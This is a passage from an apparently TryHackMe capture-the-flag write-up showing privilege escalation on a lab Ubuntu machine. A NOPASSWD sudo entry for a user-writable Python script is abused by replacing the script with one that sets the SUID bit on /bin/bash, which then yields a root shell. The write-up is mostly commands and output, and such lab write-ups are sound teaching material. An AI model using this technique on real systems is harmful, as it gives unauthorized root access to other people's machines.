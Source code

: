 **user.txt:**
```
veronica@ubuntu:~$ cat /home/veronica/user.txt
THM{Redacted}
```

### veronica to root

**Sudo permission:**
```
veronica@ubuntu:~$ sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
```

User `veronica` is able to run any command as `root`, **but it requires password, and we don't know about this.**

**However, we can run `base.py` as root without password! Also, since we're user `veronica`, we can just remove the original `base.py`, and replace our malicious python script!**

**To escalate to root, I'll:**

- Remove the original `base.py`:

```
veronica@ubuntu:~$ mv base.py base.py.bak
```

- Add a malicious python script that add SUID sticky bit to `/bin/bash`:

```
veronica@ubuntu:~$ cat << EOF > base.py
> import os
> 
> os.system('chmod +s /bin/bash')
> EOF
```

- Run the `base.py` with `sudo`:

```
veronica@ubuntu:~$ sudo /usr/bin/python3.5 /home/veronica/base.py

veronica@ubuntu:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1014K Jul 12  2019 /bin/bash
```

- Spawn a bash shell with SUID privilege:

```
veronica@ubuntu:~$ /bin/bash -p

bash-4.3# whoami;hostname;id;ip a
root
ubuntu
uid=1000(veronica) gid=1000(veronica) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(veronica)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```
